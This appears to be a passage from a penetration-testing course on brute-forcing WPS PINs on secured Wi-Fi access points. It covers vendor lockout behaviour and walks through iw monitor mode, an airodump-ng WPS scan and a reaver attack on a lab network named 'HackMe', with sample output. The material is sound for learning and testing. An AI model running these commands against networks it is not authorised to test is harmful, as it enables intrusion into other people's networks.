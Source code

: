 
<h1>Secured Access Points</h1>
<hr/>
<p>Traditionally, online brute-forcing attempts have been utilized in retrieving the WPS PIN and WPA-PSK. However, in recent years, manufacturers have become wiser to these attacks. As such, locking has been utilized to prevent these traditional bruteforcing techniques. The most recent vendors only allow up to 3 incorrect attempts. After each incorrect attempt, the AP will lock for 60 seconds. After 10 incorrect attempts, the AP will lock for 365 days.</p>
<p>Let's first enable monitor mode using the <code>iw</code> command and add a new interface named <code>mon0</code> in monitor mode.</p>
<pre><code class="language-shell-session">[!bash!]$ iw dev wlan0 interface add mon0 type monitor

[!bash!]$ ifconfig mon0 up

[!bash!]$ iwconfig

lo        no wireless extensions.

eth0      no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
</code></pre>
<p>Then, we can use <code>airodump-ng</code> to continuously scan for the WPS status of nearby networks.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng mon0 --wps -c 1


 CH  1 ][ Elapsed: 1 min ][ 2024-07-01 19:51 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS                ESSID

 86:53:10:C3:1B:26  -28      555        0    0   1   54   WPA2 CCMP   PSK  2.0 LAB,DISP,KPAD  HackMe          
</code></pre>
<p>In a new terminal, we can start the bruteforce attempt on the available WiFi network.</p>
<pre><code class="language-shell-session">[!bash!]$ reaver -i mon0 -c 1 -b 86:53:10:C3:1B:26 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="c7a4afa2a1a1a9a2b587b3a6a4a9a2b3b4a8abe9a4a8aa" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from 86:53:10:C3:1B:26
[+] Received beacon from 86:53:10:C3:1B:26
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)
[+] Trying pin "00005678"
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)
[+] Trying pin "01235678"
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)
